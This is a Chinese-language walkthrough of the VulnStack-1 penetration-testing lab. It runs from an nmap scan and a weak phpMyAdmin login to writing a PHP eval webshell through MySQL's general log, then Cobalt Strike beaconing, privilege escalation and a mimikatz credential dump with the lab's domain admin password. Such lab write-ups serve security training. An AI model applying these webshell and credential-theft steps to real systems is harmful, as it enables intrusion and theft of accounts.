






VulnStack-1¶
0x01 网络配置¶
-
kali：NAT模式，IP: 192.168.117.160
-
windows 7 x64：双网卡，一个NAT模式，另一个自定义网卡Vmnet11，IP-1：192.168.117.210；IP-2：192.168.64.134
-
Win2k3：自定义网卡Vmnet11，IP：192.168.64.129
- Windows Server 2008 R2：自定义网卡Vmnet11，IP：192.168.64.133
0x02 端口扫描¶
nmap -sS -T4 -Pn -n --open -p- 192.168.117.210
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
1025/tcp open NFS-or-IIS
1026/tcp open LSA-or-nterm
1027/tcp open IIS
1028/tcp open unknown
1029/tcp open ms-lsa
1161/tcp open health-polling
3306/tcp open mysql
0x03 漏洞利用¶
1. 访问80端口¶
2. 使用dirsearch扫描目录¶
python3 dirsearch/dirsearch.py -u http://192.168.117.210/ -e * -i 200
[22:44:10] Starting:
[22:44:19] 200 - 71KB - /phpinfo.php
[22:44:19] 200 - 4KB - /phpmyadmin/
3. 登录成功phpmyadmin¶
查看phpinfo信息，以及尝试使用root:root成功登录phpmyadmin 
4. into outfile写入webshell¶
尝试利用into outfile写入webshell，网站绝对路径在phpinfo中查询 C:/phpStudy/WWW ，此方法失败，into outfile写入权限受secure_file_priv参数影响，可使用show global variables like '%secure%';查询该参数，为null时不允许写入写出，为空时则可以

5. 利用mysql日志文件getsehll¶
- 查询日志状态
show variables like '%general%';开启日志记录set global general_log='on'; - 设置日志文件存储文件
set global general_log_file='C:/phpStudy/WWW/111.php' - 执行包含webshell的查询语句
select '<?php @eval($_POST["111"]);?>' - 使用蚁剑连接，成功getsehll 
0x04 内网漫游¶
1. cs上线¶
-
设置监听器
-
生成powershell命令
-
在目标机器执行powershell命令

-
win7成功在cs上线

2. 内网信息收集¶
-
发现该机器除了外网ip: 192.168.117.210之外，还有内网ip：192.168.64.134
-
使用access-elevate-(svc-exe)提权，如图所示成功提升到system权限

beacon> elevate svc-exe win7 [*] Tasked beacon to run windows/beacon_http/reverse_http (192.168.117.160:80) via Service Control Manager (\\127.0.0.1\ADMIN$\379f543.exe) [+] host called home, sent: 285834 bytes [+] received output: Started service 379f543 on . -
抓取密码hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: -
使用mimitakz
Session : Interactive from 1 User Name : Administrator Domain : GOD Logon Server : OWA Logon Time : 2020/9/9 17:01:06 SID : S-1-5-21-2952760202-1353902439-2381784089-500 msv : [00000003] Primary * Username : Administrator * Domain : GOD * LM : edea194d76c77d87840ac10a764c7362 * NTLM : 8a963371a63944419ec1adf687bb1be5 * SHA1 : 343f44056ed02360aead5618dd42e4614b5f70cf tspkg : * Username : Administrator * Domain : GOD * Password : hongrisec@2019 wdigest : * Username : Administrator * Domain : GOD * Password : hongrisec@2019 kerberos : * Username : Administrator * Domain : GOD.ORG * Password : hongrisec@2019 ssp : credman : Authentication Id : 0 ; 997 (00000000:000003e5) Session : Service from 0 User Name : LOCAL SERVICE Domain : NT AUTHORITY Logon Server : (null) Logon Time : 2020/9/9 17:00:19 SID : S-1-5-19 msv : tspkg : wdigest : * Username : (null) * Domain : (null) * Password : (null) kerberos : * Username : (null) * Domain : (null) * Password : (null) ssp : credman : Authentication Id : 0 ; 996 (00000000:000003e4) Session : Service from 0 User Name : STU1$ Domain : GOD Logon Server : (null) Logon Time : 2020/9/9 17:00:19 SID : S-1-5-20 msv : [00000003] Primary * Username : STU1$ * Domain : GOD * NTLM : da562c35ddad041c0e3791a46e4dba7a * SHA1 : ddabe639d3cc45a6639cf532133d1f1282428b76 tspkg : wdigest : * Username : STU1$ * Domain : GOD * Password : f2 ad c7 95 8b 3d 94 ec 59 de 05 4b 89 88 c8 1d 81 81 af 97 a2 1a ef 30 7d de e7 aa 6b 63 5c 00 b7 42 cc fe cb 30 ea fe 0e 2e 09 8e 3f f8 ad 3c 97 d8 a8 47 1e 03 db 88 1d fd 31 7b 7c 56 58 2d ff 3c 69 28 bd 27 15 e1 53 7e 86 78 9c 6c 28 5b 44 ae 1c 5b 7c 0e 2f d7 aa cf f2 2a e4 48 49 a5 33 d0 48 65 b5 f7 ec c9 6b 29 ce e2 2b 7b c5 e2 4b c4 dd 25 f6 39 a3 b7 94 b4 75 6d bf 6e 4f 01 83 83 6d d4 2d 60 c6 37 70 a5 8b 3b a5 c9 70 e8 a8 3d 66 9b c3 e1 a2 7c cf 39 db 81 99 0e 48 3d 6b 07 f7 a7 bd 1b 75 77 63 4c b4 ae 67 09 e4 f7 d1 e5 64 6f fe cb 72 cf 26 d8 47 15 7a 85 b7 55 3f 9e 05 24 68 f2 d0 f1 3f 72 1e 18 ad 7d 81 1e a2 3c 6b 5b 14 bf 35 b6 dd e4 a5 4a 28 c5 dc 78 e1 c2 bc 33 bd 83 6a 25 e7 89 55 c8 3d d0 c0 97 kerberos : * Username : stu1$ * Domain : god.org * Password : f2 ad c7 95 8b 3d 94 ec 59 de 05 4b 89 88 c8 1d 81 81 af 97 a2 1a ef 30 7d de e7 aa 6b 63 5c 00 b7 42 cc fe cb 30 ea fe 0e 2e 09 8e 3f f8 ad 3c 97 d8 a8 47 1e 03 db 88 1d fd 31 7b 7c 56 58 2d ff 3c 69 28 bd 27 15 e1 53 7e 86 78 9c 6c 28 5b 44 ae 1c 5b 7c 0e 2f d7 aa cf f2 2a e4 48 49 a5 33 d0 48 65 b5 f7 ec c9 6b 29 ce e2 2b 7b c5 e2 4b c4 dd 25 f6 39 a3 b7 94 b4 75 6d bf 6e 4f 01 83 83 6d d4 2d 60 c6 37 70 a5 8b 3b a5 c9 70 e8 a8 3d 66 9b c3 e1 a2 7c cf 39 db 81 99 0e 48 3d 6b 07 f7 a7 bd 1b 75 77 63 4c b4 ae 67 09 e4 f7 d1 e5 64 6f fe cb 72 cf 26 d8 47 15 7a 85 b7 55 3f 9e 05 24 68 f2 d0 f1 3f 72 1e 18 ad 7d 81 1e a2 3c 6b 5b 14 bf 35 b6 dd e4 a5 4a 28 c5 dc 78 e1 c2 bc 33 bd 83 6a 25 e7 89 55 c8 3d d0 c0 97 ssp : credman : Authentication Id : 0 ; 51840 (00000000:0000ca80) Session : UndefinedLogonType from 0 User Name : (null) Domain : (null) Logon Server : (null) Logon Time : 2020/9/9 17:00:19 SID : msv : [00000003] Primary * Username : STU1$ * Domain : GOD * NTLM : da562c35ddad041c0e3791a46e4dba7a * SHA1 : ddabe639d3cc45a6639cf532133d1f1282428b76 tspkg : wdigest : kerberos : ssp : credman : Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : STU1$ Domain : GOD Logon Server : (null) Logon Time : 2020/9/9 17:00:19 SID : S-1-5-18 msv : tspkg : wdigest : * Username : STU1$ * Domain : GOD * Password : f2 ad c7 95 8b 3d 94 ec 59 de 05 4b 89 88 c8 1d 81 81 af 97 a2 1a ef 30 7d de e7 aa 6b 63 5c 00 b7 42 cc fe cb 30 ea fe 0e 2e 09 8e 3f f8 ad 3c 97 d8 a8 47 1e 03 db 88 1d fd 31 7b 7c 56 58 2d ff 3c 69 28 bd 27 15 e1 53 7e 86 78 9c 6c 28 5b 44 ae 1c 5b 7c 0e 2f d7 aa cf f2 2a e4 48 49 a5 33 d0 48 65 b5 f7 ec c9 6b 29 ce e2 2b 7b c5 e2 4b c4 dd 25 f6 39 a3 b7 94 b4 75 6d bf 6e 4f 01 83 83 6d d4 2d 60 c6 37 70 a5 8b 3b a5 c9 70 e8 a8 3d 66 9b c3 e1 a2 7c cf 39 db 81 99 0e 48 3d 6b 07 f7 a7 bd 1b 75 77 63 4c b4 ae 67 09 e4 f7 d1 e5 64 6f fe cb 72 cf 26 d8 47 15 7a 85 b7 55 3f 9e 05 24 68 f2 d0 f1 3f 72 1e 18 ad 7d 81 1e a2 3c 6b 5b 14 bf 35 b6 dd e4 a5 4a 28 c5 dc 78 e1 c2 bc 33 bd 83 6a 25 e7 89 55 c8 3d d0 c0 97 kerberos : * Username : stu1$ * Domain : GOD.ORG * Password : f2 ad c7 95 8b 3d 94 ec 59 de 05 4b 89 88 c8 1d 81 81 af 97 a2 1a ef 30 7d de e7 aa 6b 63 5c 00 b7 42 cc fe cb 30 ea fe 0e 2e 09 8e 3f f8 ad 3c 97 d8 a8 47 1e 03 db 88 1d fd 31 7b 7c 56 58 2d ff 3c 69 28 bd 27 15 e1 53 7e 86 78 9c 6c 28 5b 44 ae 1c 5b 7c 0e 2f d7 aa cf f2 2a e4 48 49 a5 33 d0 48 65 b5 f7 ec c9 6b 29 ce e2 2b 7b c5 e2 4b c4 dd 25 f6 39 a3 b7 94 b4 75 6d bf 6e 4f 01 83 83 6d d4 2d 60 c6 37 70 a5 8b 3b a5 c9 70 e8 a8 3d 66 9b c3 e1 a2 7c cf 39 db 81 99 0e 48 3d 6b 07 f7 a7 bd 1b 75 77 63 4c b4 ae 67 09 e4 f7 d1 e5 64 6f fe cb 72 cf 26 d8 47 15 7a 85 b7 55 3f 9e 05 24 68 f2 d0 f1 3f 72 1e 18 ad 7d 81 1e a2 3c 6b 5b 14 bf 35 b6 dd e4 a5 4a 28 c5 dc 78 e1 c2 bc 33 bd 83 6a 25 e7 89 55 c8 3d d0 c0 97 ssp : credman :